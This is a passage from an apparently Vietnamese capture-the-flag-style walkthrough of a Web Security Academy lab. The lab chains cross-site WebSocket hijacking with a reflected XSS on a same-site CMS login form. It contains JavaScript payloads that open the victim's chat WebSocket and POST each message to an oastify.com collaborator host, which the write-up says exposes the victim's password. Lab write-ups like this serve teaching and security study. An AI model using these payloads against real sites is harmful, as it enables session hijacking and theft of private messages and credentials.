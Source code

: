 ```javascript!
    var ws = new WebSocket('wss://0a5200d00381d613c0e790c900950012.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://rc7wxjfb3kh2c5q6hbug17l0erki87.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
```

Xem xét kết quả nhận được ta thấy rằng nó chỉ trả về một phiên giao tiếp mới.

>![](https://i.imgur.com/IBQpoo4.png)

Lý do là vì cookie `session` không được gửi trong các cross-site request, server không xác định được session trò chuyện, nên sẽ không gửi về toàn bộ lịch sử chat được.

Kiểm tra các request khác, ta thấy có trường `Access-control-Allow-Origin` với giá trị là địa chỉ của miền này:

https://cms-0ad3000d03339b97c091ea2f00ac0012.web-security-academy.net

Đây là một miền khác, nằm trong cùng site với trang web ta đang khai thác. Các request cross-site từ miền này đến trang web đang khai thác sẽ có thể mang theo cookie `session`

Kiểm tra đường link trên, ta thấy có 1 form login, khi nhập username sai sẽ trả về `invalide username: <username>`

>![](https://i.imgur.com/8uqHjXO.png)

Thử xss với username = `<script>alert(1)</script>` thì thấy khai thác XSS được. 
Vì nó được bao gồm cookie trong các request giữa 2 miền (cùng site) nên ta sẽ tấn công CSRF từ đây để lấy session và thực hiện gửi message `READY` đi.

Payload:

```javascript!
<script>
    document.location = "https://cms-0ad3000d03339b97c091ea2f00ac0012.web-security-academy.net/login?username=%3Cscript%3E%0A%20%20%20%20var%20ws%20%3D%20new%20WebSocket%28%27wss%3A%2F%2F0a5200d00381d613c0e790c900950012.web-security-academy.net%2Fchat%27%29%3B%0A%20%20%20%20ws.onopen%20%3D%20function%28%29%20%7B%0A%20%20%20%20%20%20%20%20ws.send%28%22READY%22%29%3B%0A%20%20%20%20%7D%3B%0A%20%20%20%20ws.onmessage%20%3D%20function%28event%29%20%7B%0A%20%20%20%20%20%20%20%20fetch%28%27https%3A%2F%2Fy543qq8iwra95cjdainnuee77ydo1d.oastify.com%27%2C%20%7Bmethod%3A%20%27POST%27%2C%20mode%3A%20%27no-cors%27%2C%20body%3A%20event.data%7D%29%3B%0A%20%20%20%20%7D%3B%0A%3C%2Fscript%3E&password=1";
</script>
```

Kết quả lấy được lịch sử chat, có bao gồm mật khẩu của nạn nhân:

>![](https://i.imgur.com/V2pvpmj.png)


<hr>

### Bài 10:SameSite Lax bypass via cookie refresh

> [color=#210b70] ![](https://i.imgur.com/3fIvqsd.png)
